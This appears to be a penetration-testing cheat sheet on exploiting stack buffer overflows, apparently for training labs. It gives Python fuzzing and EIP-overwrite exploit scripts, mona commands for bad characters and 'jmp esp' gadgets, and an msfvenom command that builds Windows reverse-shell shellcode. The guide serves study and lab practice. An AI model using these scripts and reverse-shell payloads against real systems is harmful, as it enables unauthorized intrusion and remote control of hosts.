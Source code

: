 # My methodology

## Setup

### Immunity Debugger

Always run Immunity Debugger as Administrator if you can.

There are generally two ways to use Immunity Debugger to debug an application:

1. Using `File -> Attach` to attack the debugger to the running process.
2. Or by opening Immunity Debugger, and then using `File -> Open` to run the application.

When attaching to an application or opening an application in Immunity Debugger, the application will be paused. Click the "Run" button or press F9.

### Mona Setup

Mona is a powerful plugin for Immunity Debugger that makes exploiting buffer overflows much easier. Download: [:download:\`mona.py &lt;../\_static/files/mona.py&gt;\`](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst#id1)The latest version can be downloaded here: [https://github.com/corelan/mona](https://github.com/corelan/mona)The manual can be found here: [https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)

Copy the mona.py file into the PyCommands directory of Immunity Debugger \(usually located at C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands\).

In Immunity Debugger, type the following to set a working directory for mona.

```text
!mona config -set workingfolder c:\mona\%p
```

## Spiking/Fuzzing

### Raw sockets

The following Python script can be modified and used to fuzz remote entry points to an application. It will send increasingly long buffer strings in the hope that one eventually crashes the application.

```python
#!/usr/bin/env python3
import socket, time, sys

ip = "127.0.0.1"
port = 9999
timeout = 2
buffer_step = 100
buffer_size_max = 3000

buffer = ""

for i in range(0,buffer_size_max, buffer_step):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        s.send("HTER "+buffer[:i]+"\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

Check that the EIP register has been overwritten by A's \(\x41\). Make a note of any other registers that have either been overwritten, or are pointing to space in memory which has been overwritten.

### Boofuzz

```python
#!/usr/bin/env python3
from boofuzz import *

RHOST = "127.0.0.1"
RPORT = 9999

s = Session(target=Target(connection=SocketConnection(RHOST,RPORT,proto="tcp")))

s_initialize("FUZZER")
s_string("change_me", fuzzable=False)
s_delim(" ", fuzzable=False)
s_string("fuzzme")

s.connect(s_get("FUZZER"))
s.fuzz()
```

## Finding and controlling EIP

```python
#!/usr/bin/env python3
import socket

ip = "10.10.64.104"
port = 1337

offset = 1978

buffer  = b""
buffer += b"OVERFLOW1 " # prefix
buffer += b"1" * offset # overflow
buffer += b"2222" # return
buffer += b"\x90" # padding
buffer += b"" # payload
buffer += b"" # postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending buffer...")
    s.send(buffer + b"\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

## Finding bad characters

`!mona bytearray -b "\x00"`

```python
#!/usr/bin/env python3
for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')
print()
```

`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>`

## Finding the right module

You can list modules with `!mona modules` command, and find unsecured module.

Then try to find position of `jmp esp` instruction\(`FF E4`\)

```text
!mona jmp -r esp
!mona find -s "\xff\xe4" -m <unsecure_module>
```

## Generating shellcode

Generating shellcode with msfvenom is easy.

```text
msfvenom -p <payload> LHOST=<lhost> LPORT=<lport> EXITFUNC=thread -f c -a <architecture> -b <bad_bytes>

# example
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=8990 EXITFUNC=thread -f c -a x86 -b "\x00"
```

## Root

Setup your listener, run the exploit, profit.

